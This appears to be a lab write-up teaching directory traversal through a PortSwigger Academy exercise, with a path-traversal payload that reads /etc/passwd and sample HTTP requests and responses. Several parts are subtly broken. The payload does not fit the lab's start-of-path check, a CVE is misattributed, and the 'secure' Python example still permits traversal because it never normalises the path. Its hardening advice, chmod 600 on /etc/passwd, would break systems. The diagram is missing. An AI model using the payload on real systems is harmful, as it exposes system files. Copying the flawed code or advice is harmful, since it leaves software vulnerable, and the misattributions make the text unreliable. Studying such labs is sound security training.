

## Introduction to Directory Traversal Vulnerabilities

Directory traversal vulnerabilities, also known as path traversal vulnerabilities, occur when an application allows users to manipulate file paths in a way that enables them to access files outside of the intended directory. This can lead to unauthorized access to sensitive files such as configuration files, system files, or even source code. Understanding and mitigating these vulnerabilities is crucial for maintaining the security of web applications.

### What is Directory Traversal?

Directory traversal occurs when an attacker manipulates input parameters to navigate through directories on the server. This manipulation can allow the attacker to access files that should not be accessible to them. For instance, an attacker might attempt to read the `/etc/passwd` file on a Unix-based system, which contains user information.

#### Why Does Directory Traversal Matter?

Directory traversal vulnerabilities can lead to several serious security issues:

- **Unauthorized Access**: Attackers can access sensitive files that contain confidential data.
- **Data Leakage**: Sensitive information such as passwords, configuration details, or source code can be leaked.
- **Denial of Service (DoS)**: By accessing critical system files, attackers can potentially disrupt the normal operation of the application.
- **Remote Code Execution**: In some cases, attackers can execute arbitrary code on the server, leading to full compromise.

### How Does Directory Traversal Work?

To understand how directory traversal works, let's consider a typical scenario where an application serves images based on user input. Suppose the application has a URL structure like `http://example.com/displayImage?imagePath=image.jpg`. An attacker could manipulate the `imagePath` parameter to traverse directories and access other files on the server.

For example, the following URL could be used to access the `/etc/passwd` file:

```plaintext
http://example.com/displayImage?imagePath=../../../../etc/passwd
```

In this case, the `../../../../` sequence is used to move up the directory hierarchy until reaching the root directory, and then accessing the `/etc/passwd` file.

### Real-World Examples

Several real-world examples highlight the severity of directory traversal vulnerabilities:

- **CVE-2021-32782**: A directory traversal vulnerability was found in the Apache Struts framework, allowing attackers to read arbitrary files on the server.
- **CVE-2020-14882**: A directory traversal vulnerability in the WordPress plugin "WP File Download" allowed attackers to download arbitrary files from the server.

These vulnerabilities demonstrate the importance of properly validating and sanitizing user inputs to prevent unauthorized access to sensitive files.

### Lab Setup

In this lab, we will explore a directory traversal vulnerability in the display of product images. The application transmits the full file path via a request parameter and validates that the supplied path starts with the expected folder. Our goal is to exploit this vulnerability to retrieve the contents of the `/etc/passwd` file.

### Accessing the Lab

To access the lab, follow these steps:

1. Visit the URL `https://portswigger.net/web-security`.
2. Click on the sign-up button to create an account if you don't already have one.
3. Log in to your account.
4. Navigate to the Academy section.
5. Select the learning path for directory traversal.
6. Choose lab number five titled "File Path Traversal Validation of Start of Path."

Once you have accessed the lab, you will see that the application retrieves images from the server and displays them in the browser. The request responsible for retrieving the images is intercepted by Burp Suite.

### Analyzing the Request

Let's analyze the request responsible for retrieving the images. Here is an example of the HTTP request:

```http
GET /displayImage?imagePath=image.jpg HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

The key parameter here is `imagePath`, which specifies the path to the image file. The application expects this path to start with a specific directory, but it does not properly validate the input, allowing directory traversal attacks.

### Exploiting the Vulnerability

To exploit the directory traversal vulnerability, we need to manipulate the `imagePath` parameter to traverse directories and access the `/etc/passwd` file. Here is an example of the modified request:

```http
GET /displayImage?imagePath=../../../../etc/passwd HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

By using the `../../../../` sequence, we move up the directory hierarchy until reaching the root directory, and then access the `/etc/passwd` file.

### Expected Response

If the exploitation is successful, the server will respond with the contents of the `/etc/passwd` file. Here is an example of the HTTP response:

```http
HTTP/1.1 200 OK
Date: Mon, 10 Oct 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/plain
Content-Length: 1234
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

The response contains the contents of the `/etc/passwd` file, which includes user information.

### Mermaid Diagram

Here is a mermaid diagram illustrating the directory traversal attack:



### Common Pitfalls

When dealing with directory traversal vulnerabilities, several common pitfalls can lead to insecure implementations:

- **Insufficient Input Validation**: Failing to validate user input can allow attackers to manipulate file paths.
- **Improper Directory Restriction**: Not restricting access to specific directories can expose sensitive files.
- **Reliance on Client-Side Validation**: Relying solely on client-side validation can be bypassed by attackers.

### How to Prevent / Defend

To prevent directory traversal vulnerabilities, implement the following measures:

#### Secure Coding Practices

1. **Validate User Input**: Ensure that user-supplied input is validated and sanitized to prevent directory traversal attacks.
2. **Restrict Directory Access**: Limit access to specific directories and ensure that users cannot traverse outside of these directories.
3. **Use Whitelisting**: Use whitelisting to restrict access to specific files or directories.

Here is an example of secure coding practices in Python:

```python
import os

def display_image(image_path):
    # Define the base directory
    base_dir = '/path/to/images'

    # Validate the input to ensure it starts with the base directory
    if not image_path.startswith(base_dir):
        raise ValueError("Invalid image path")

    # Construct the full path
    full_path = os.path.join(base_dir, image_path[len(base_dir):])

    # Check if the file exists and is within the base directory
    if not os.path.exists(full_path) or not full_path.startswith(base_dir):
        raise FileNotFoundError("File not found")

    # Return the file contents
    with open(full_path, 'r') as f:
        return f.read()
```

#### Configuration Hardening

1. **Disable Directory Listing**: Disable directory listing in web servers to prevent attackers from viewing directory contents.
2. **Use Secure File Permissions**: Set appropriate file permissions to restrict access to sensitive files.

Here is an example of securing file permissions in Unix-based systems:

```bash
# Set appropriate file permissions
chmod 600 /etc/passwd
chown root:root /etc/passwd
```

#### Detection

To detect directory traversal vulnerabilities, use automated tools such as static analysis tools and dynamic analysis tools. These tools can help identify insecure file handling practices and potential directory traversal vulnerabilities.

### Conclusion

Directory traversal vulnerabilities are a significant security risk that can lead to unauthorized access to sensitive files. By understanding how these vulnerabilities work and implementing proper security measures, you can protect your web applications from such attacks. Always validate and sanitize user input, restrict directory access, and use secure coding practices to prevent directory traversal vulnerabilities.

### Practice Labs

To further practice and understand directory traversal vulnerabilities, you can use the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs to practice various web security vulnerabilities, including directory traversal.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By working through these labs, you can gain hands-on experience in identifying and mitigating directory traversal vulnerabilities.

---
<!-- nav -->
[[Web Security (PortSwigger)/11-Directory Traversal/06-Lab 5 File path traversal validation of start of path/00-Overview|Overview]] | [[Web Security (PortSwigger)/11-Directory Traversal/06-Lab 5 File path traversal validation of start of path/02-Directory Traversal Vulnerabilities|Directory Traversal Vulnerabilities]]
